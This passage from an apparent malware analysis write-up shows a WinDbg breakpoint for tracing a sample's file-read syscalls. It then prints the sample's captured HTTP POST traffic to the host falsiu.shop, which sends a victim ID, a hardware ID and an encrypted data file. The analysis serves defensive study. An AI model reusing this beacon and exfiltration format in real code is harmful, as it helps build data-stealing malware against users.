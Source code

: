 This breakpoint will pause on `NtFileRead` operations, [which have the syscall ID of `0x8e` on 32-bit Windows 10 22H2 versions](https://j00ru.vexillium.org/syscalls/nt/32/), if you want to inspect any of the syscalls further:

```
bu Project3+0x1a2c "bu $t0+0x00040000+0x5446 \".if (@eax != 0x8e) {gc} .else {r eax; p; dd poi(esp+0x18)}\"; g"; 
```

As noted earlier, there are typically four rounds of communication before graceful exit. The first and last message is usually identical, with the exception that the HWID value appears in the fourth one:

```
# First...
POST /zpah? HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Length: 87
Host: falsiu.shop:443

uid=88b3b49f0a9eee8bc4a28fa4332343861e9d8e80adfdcc&cid=1a1c2c9f14d0b22156cd2760cec88517


# Fourth...
POST /zpah? HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Length: 125
Host: falsiu.shop:443

uid=88b3b49f0a9eee8bc4a28fa4332343861e9d8e80adfdcc&cid=1a1c2c9f14d0b22156cd2760cec88517&hwid=9C503F4AE14A40A1FC9088348D5AE88D
```

The second and third messages contain encrypted data:

```
POST /zpah? HTTP/1.1
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=IbbvIj4Y4zG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Length: 1218
Host: falsiu.shop:443

--IbbvIj4Y4zG
Content-Disposition: form-data; name="uid"

88b3b49f0a9eee8bc4a28fa4332343861e9d8e80adfdcc
--IbbvIj4Y4zG
Content-Disposition: form-data; name="pid"

1
--IbbvIj4Y4zG
Content-Disposition: form-data; name="hwid"

9C503F4AE14A40A1FC9088348D5AE88D
--IbbvIj4Y4zG
Content-Disposition: form-data; name="file"; filename="data"
Content-Type: application/octet-stream

< encrypted data... >
```